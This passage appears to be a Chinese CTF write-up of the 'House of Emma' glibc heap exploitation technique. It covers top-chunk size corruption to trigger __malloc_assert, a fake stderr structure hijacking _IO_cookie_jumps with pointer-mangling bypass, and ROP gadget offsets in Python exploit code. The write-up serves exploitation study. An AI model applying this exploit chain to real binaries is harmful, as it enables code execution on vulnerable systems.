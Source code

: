 ```python
```

先分别修补两个largebin，防止分配时发生错误

申请8填补5,申请9填补2

将最外层的chunk 6 free掉，加入unsorted bin并与top chunk合并

再申请一块略小于6的chunk 10，通过修改chunk 6的内容修改top chunk的size段

此处改为0x10使之页不对齐

后面只需要申请一个chunk就可以触发`__malloc_assert`

## 构造IO利用链

### gadget

假设我们控制了`stderr`，进入了`_IO_cookie_write`，调用函数指针`write_cb`，此时我们只能控制进入函数时的`rdi`，而控制`setcontext`需要控制rdx

碰巧有一个gadget，能够利用`rdi`控制`rdx`，还能call一个和`rdx`相关的地址

![image-20230720211806875](../img/house-of-emma21湖湘杯复现.assets/image-20230720211806875.png)

```python
gadget = libc_base + 0x0000000000146020
#mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
ret = libc_base + 0x000000000002d446
pop_rax = libc_base + 0x00000000000446c0
pop_rdi = libc_base + 0x000000000002daa2
pop_rsi = libc_base + 0x0000000000037c0a
syscall = libc_base + 0x00000000000883b6
```

### fake stderr

```python
def ROL(content, n):
	num = bin(content)[2:].rjust(64,'0')
	return int(num[n:]+num[:n],2)

#fake stderr
payload = p64(0)*3
payload += p64(0xffffffffffffffff)
payload = payload.ljust(0x78,"\x00")
payload += p64(libc_base + libc.sym['_IO_stdfile_2_lock'])
payload = payload.ljust(0xc8,"\x00")
payload += p64(libc_base + libc.sym['_IO_cookie_jumps']+0x40)
payload += p64(heap_base+0x10) #chunk 0->rdi
payload += p64(0)
payload += p64(ROL(gadget^(heap_base+0x1120),0x11))
edit(2,0xe8,payload)
sendit()
```
